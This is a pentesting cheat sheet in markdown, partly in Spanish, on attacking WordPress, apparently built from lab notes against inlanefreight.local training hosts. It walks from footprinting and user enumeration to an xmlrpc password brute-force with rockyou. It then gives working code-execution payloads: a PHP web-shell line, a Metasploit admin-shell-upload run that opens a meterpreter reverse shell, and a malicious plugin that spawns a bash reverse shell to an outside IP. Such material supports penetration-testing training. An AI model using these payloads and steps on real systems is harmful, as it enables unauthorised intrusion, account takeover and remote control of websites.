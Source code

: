 
# WordPress - Discovery & Enumeration

## Discovery/Footprinting

```c
User-agent: *
Disallow: /wp-admin/
Allow: /wp-admin/admin-ajax.php
Disallow: /wp-content/uploads/wpforms/

Sitemap: https://inlanefreight.local/wp-sitemap.xml
```

```c
$ curl -s http://blog.inlanefreight.local | grep WordPress

<meta name="generator" content="WordPress 5.8" /
```

 -  [Business Gravity](https://wordpress.org/themes/business-gravity/)

```c
$ curl -s http://blog.inlanefreight.local/ | grep themes

<link rel='stylesheet' id='bootstrap-css'  href='http://blog.inlanefreight.local/wp-content/themes/business-gravity/assets/vendors/bootstrap/css/bootstrap.min.css' type='text/css' media='all' />
```

```c
$ curl -s http://blog.inlanefreight.local/ | grep plugins

<link rel='stylesheet' id='contact-form-7-css'  href='http://blog.inlanefreight.local/wp-content/plugins/contact-form-7/includes/css/styles.css?ver=5.4.2' type='text/css' media='all' />
<script type='text/javascript' src='http://blog.inlanefreight.local/wp-content/plugins/mail-masta/lib/subscriber.js?ver=5.8' id='subscriber-js-js'></script>
<script type='text/javascript' src='http://blog.inlanefreight.local/wp-content/plugins/mail-masta/lib/jquery.validationEngine-en.js?ver=5.8' id='validation-engine-en-js'></script>
<script type='text/javascript' src='http://blog.inlanefreight.local/wp-content/plugins/mail-masta/lib/jquery.validationEngine.js?ver=5.8' id='validation-engine-js'></script>
		<link rel='stylesheet' id='mm_frontend-css'  href='http://blog.inlanefreight.local/wp-content/plugins/mail-masta/lib/css/mm_frontend.css?ver=5.8' type='text/css' media='all' />
<script type='text/javascript' src='http://blog.inlanefreight.local/wp-content/plugins/contact-form-7/includes/js/index.js?ver=5.4.2' id='contact-form-7-js'></script>
```

```c
$ curl -s http://blog.inlanefreight.local/?p=1 | grep plugins

<link rel='stylesheet' id='contact-form-7-css'  href='http://blog.inlanefreight.local/wp-content/plugins/contact-form-7/includes/css/styles.css?ver=5.4.2' type='text/css' media='all' />
<link rel='stylesheet' id='wpdiscuz-frontend-css-css'  href='http://blog.inlanefreight.local/wp-content/plugins/wpdiscuz/themes/default/style.css?ver=7.0.4' type='text/css' media='all' />
```

## Enumerating Users

```c
curl https://wordpressexample.com/?author=1
```

```c
for i in {1..5}; do curl -s -L -i http://www.wordpress-site-to-test.com/?author=$i | grep -E -o "\" title=\"View all posts by [a-z0-9A-Z\-\.]*|Location:.*" | sed 's/\// /g' | cut -f 6 -d ' ' | grep -v "^$"; done
```

```c
$ curl https://wordpressexample.com/wp-json/wp/v2/users
```

```c
wpscan --url example.com --enumerate u

```

## WPScan

WPScan es una herramienta automatizada de escaneo y enumeración de WordPress. Determina si los distintos temas y plugins utilizados por un blog están desactualizados o son vulnerables. Se instala por defecto en Parrot OS, pero también puede instalarse manualmente con ``gem``

```shell-session
$ wpscan -h

_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.7
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

Usage: wpscan [options]
        --url URL                                 The URL of the blog to scan
                                                  Allowed Protocols: http, https
                                                  Default Protocol if none provided: http
                                                  This option is mandatory unless update or help or hh or version is/are supplied
    -h, --help                                    Display the simple help and exit
        --hh                                      Display the full help and exit
        --version                                 Display the version and exit
    -v, --verbose                                 Verbose mode
        --[no-]banner                             Whether or not to display the banner
                                                  Default: true
    -o, --output FILE                             Output to FILE
    -f, --format FORMAT                           Output results in the format supplied
                                                  Available choices: json, cli-no-colour, cli-no-color, cli
        --detection-mode MODE                     Default: mixed
                                                  Available choices: mixed, passive, aggressive
```


```shell-session
$ sudo wpscan --url http://blog.inlanefreight.local --enumerate --api-token dEOFB<SNIP>
```

## Attacking WordPress

### Login Bruteforce

```shell-session
$ sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
```

### Code Execution

```php
system($_GET[0]);
```

```c
msf6 > use exploit/unix/webapp/wp_admin_shell_upload 

[*] No payload configured, defaulting to php/meterpreter/reverse_tcp

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts blog.inlanefreight.local
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username john
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password firebird1
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.14.15 
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhost 10.129.42.195  
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set VHOST blog.inlanefreight.local
```

```c
msf6 exploit(unix/webapp/wp_admin_shell_upload) > show options 

Module options (exploit/unix/webapp/wp_admin_shell_upload):

   Name       Current Setting           Required  Description
   ----       ---------------           --------  -----------
   PASSWORD   firebird1                 yes       The WordPress password to authenticate with
   Proxies                              no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.129.42.195             yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                        yes       The target port (TCP)
   SSL        false                     no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                         yes       The base path to the wordpress application
   USERNAME   john                      yes       The WordPress username to authenticate with
   VHOST      blog.inlanefreight.local  no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.15      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   WordPress
```

```c
msf6 exploit(unix/webapp/wp_admin_shell_upload) > exploit

[*] Started reverse TCP handler on 10.10.14.15:4444 
[*] Authenticating with WordPress using doug:jessica1...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wp-content/plugins/CczIptSXlr/wCoUuUPfIO.php...
[*] Sending stage (39264 bytes) to 10.129.42.195
[*] Meterpreter session 1 opened (10.10.14.15:4444 -> 10.129.42.195:42816) at 2021-09-20 19:43:46 -0400
i[+] Deleted wCoUuUPfIO.php
[+] Deleted CczIptSXlr.php
[+] Deleted ../CczIptSXlr

meterpreter > getuid

Server username: www-data (33)
```

#### WordPress Plugin : Reverse Shell

```c
<?php

/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
* Author: Vince Matteo
* Author URI: http://www.sevenlayers.com
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.86.99/443 0>&1'");
?>
```
## Referencias:

- [https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/wordpress.html](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/wordpress.html)
- [https://sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell](https://sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell)
- [https://medium.com/@akshadjoshi/from-wordpress-to-reverse-shell-3857ee1f4896](https://medium.com/@akshadjoshi/from-wordpress-to-reverse-shell-3857ee1f4896)
- [https://anshildev.medium.com/wordpress-and-joomla-reverse-shells-f76dcdbc0339](https://anshildev.medium.com/wordpress-and-joomla-reverse-shells-f76dcdbc0339)
- [https://www.hackingarticles.in/wordpress-reverse-shell/](https://www.hackingarticles.in/wordpress-reverse-shell/)


